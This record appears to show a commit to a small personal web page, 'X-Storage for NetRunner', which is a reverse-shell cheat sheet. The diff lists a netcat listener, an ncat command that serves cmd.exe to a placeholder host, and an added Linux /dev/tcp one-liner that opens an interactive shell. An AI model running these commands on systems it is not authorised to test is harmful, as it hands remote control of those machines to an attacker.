

Before and after one commit to X-netrunner/storage, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 40-800 px from the top of the page, without its empty margins (219-1255 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
linux bug fix

```diff
--- a/index.html
+++ b/index.html
@@ -10,7 +10,8 @@
         <header><h1>X-Storage for NetRunner</h1></header></header><br>
         <h2>Reverse shell from linux(kali) to windows</h2><br>
         <p><em>host:</em> nc -lnvp [port]</p>
-        <p><em>client:</em>[windows :ncat | for linux :nc] ncat [host ip] [port] -e cmd.exe</p>
+        <p><em>client:</em>[windows] ncat [host ip] [port] -e cmd.exe</p>
+        <p><em>client:</em>[linux]sh -i >& /dev/tcp/[host ip]/[port] 0>&1</p>
         <br><h4><em>Requirements:</em></h4><br>
         <table>
             <tr>
```
